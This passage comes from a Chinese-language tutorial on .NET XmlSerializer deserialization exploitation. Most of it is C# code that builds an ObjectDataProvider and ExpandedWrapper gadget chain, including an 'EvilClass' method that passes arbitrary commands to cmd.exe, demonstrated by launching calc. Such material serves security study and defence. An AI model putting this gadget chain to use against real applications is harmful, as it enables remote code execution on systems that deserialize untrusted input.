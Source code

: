 ```
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("cmd.exe");
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("/c calc");
            expandedWrapper.ProjectedProperty0.ObjectInstance = new Process();
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(Object));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter textWriter = new StreamWriter(memoryStream);
            xmlSerializer.Serialize(textWriter, expandedWrapper);
        }
    }
}
```

还是出错了，原因是因为使用`ExpandedWrapper`去包装Process，是无法序列化的

![image-20240328141938379](images/6.png)

所以要包装一个可以序列化的类，我们来自定义一个可以序列化的类，然后通过ObjectDataProvider来调用其中的恶意方法

```C#
using System;
using System.Collections.Generic;
using System.Data.Services.Internal;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Data;
using System.Xml.Serialization;

namespace XmlDeserialization
{
    public class EvilClass
    {
        public void evil(string cmd)
        {
            Process process = new Process();
            process.StartInfo.FileName = "cmd.exe";
            process.StartInfo.Arguments = "/c " + cmd;
            process.Start();
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            ExpandedWrapper<EvilClass, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<EvilClass, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = objectDataProvider;
            expandedWrapper.ProjectedProperty0.MethodName = "evil";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("calc");
            expandedWrapper.ProjectedProperty0.ObjectInstance = new EvilClass();
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(ExpandedWrapper<EvilClass, ObjectDataProvider>));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter textWriter = new StreamWriter(memoryStream);
            xmlSerializer.Serialize(textWriter, expandedWrapper);
```